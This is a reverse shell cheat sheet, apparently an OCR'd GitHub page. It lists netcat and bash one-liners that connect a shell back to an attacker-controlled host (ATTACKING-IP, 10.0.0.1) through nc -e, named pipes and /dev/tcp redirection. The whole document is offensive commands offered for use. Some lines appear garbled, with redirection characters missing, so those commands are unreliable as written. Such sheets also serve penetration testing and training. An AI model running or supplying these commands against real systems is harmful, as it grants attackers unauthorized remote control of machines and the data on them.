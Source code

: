 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> **nc -e /bin/sh 10.0.0.1 1234**



> **/bin/sh | nc ATTACKING-IP 80**



> **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**



If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:


> **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> **exec /bin/bash 0&0 2>&0**



> **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**



> **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
> cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> **while read line 0<&5; do $line 2>&5 >&5; done**



> **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**
